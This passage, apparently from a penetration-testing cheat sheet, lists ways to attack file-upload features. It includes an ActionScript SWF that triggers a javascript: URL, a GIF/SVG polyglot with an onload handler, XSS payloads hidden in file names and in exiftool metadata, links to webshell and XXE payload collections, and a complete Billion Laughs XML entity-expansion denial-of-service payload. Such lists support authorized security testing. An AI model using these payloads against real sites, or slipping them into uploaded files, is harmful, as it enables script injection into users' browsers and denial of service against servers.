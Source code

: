 
Create an ActionScript file (.as) with the below source code and compile it with ```mtasc -swf asd.swf -main -header 0:0:0 test.as``` (Source: https://github.com/ncannasse/mtasc)

```
class XSS {
   	 static var app: XSS;
   	 function XSS() {
   	 var xss = "javascript:alert(\"That's a cool XSS\")";
   	 getURL(xss, "_self");
   	 }
   	 static function main(mc) {
   	 app = new XSS();
}}

```
5.Upload GIF file:
```
GIF89a/<svg/onload=alert(1)>/=alert(document.domain)//;
```

6.  Upload file with XSS payload within its name
```
image.jpeg -> image'"><script>alert()</script>.jpeg
```


7. Upload file with XSS payload within metadata
```
exiftool -Comment='"><script>alert()</script> image.jpg
```


## Web Shells
Where to get them from: https://github.com/BlackArch/webshells


## XML External Entities Injection

Upload ```.SVG, .XML, .XSD, .XMP, .XSLT, .XHTML``` files with payloads

https://github.com/payloadbox/xxe-injection-payload-list

If ```SYSTEM``` entity is restricted, then try Billion Laughs attack for Application Denial-of-Service (DoS)

```
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```
